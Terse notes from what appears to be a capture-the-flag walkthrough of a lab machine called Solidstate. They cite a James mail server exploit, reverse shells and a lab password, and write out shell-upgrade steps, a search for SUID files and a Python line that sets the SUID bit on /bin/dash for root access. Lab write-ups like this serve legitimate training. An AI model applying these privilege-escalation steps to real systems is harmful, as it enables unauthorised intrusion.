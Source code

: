 ## Solidstate

https://www.exploit-db.com/exploits/46676

apache 2.4.25

james mail server exploit

use pentest monkey reverse shells


privesc

mindy pass P@55W0rd1!2@

linEnum -t

[-] Files not owned by user but writable by group:
-rwxrwxrwx 1 root root 105 Aug 22  2017 /opt/tmp.py

to edit the file ^Z to background the shell.

now `stty raw -echo` then `fg` the shell then `reset` (you wont see anything text)

find suid files `find / -perm -u=s -type f 2>/dev/null`

`os.system('chmod 4755 /bin/dash')`
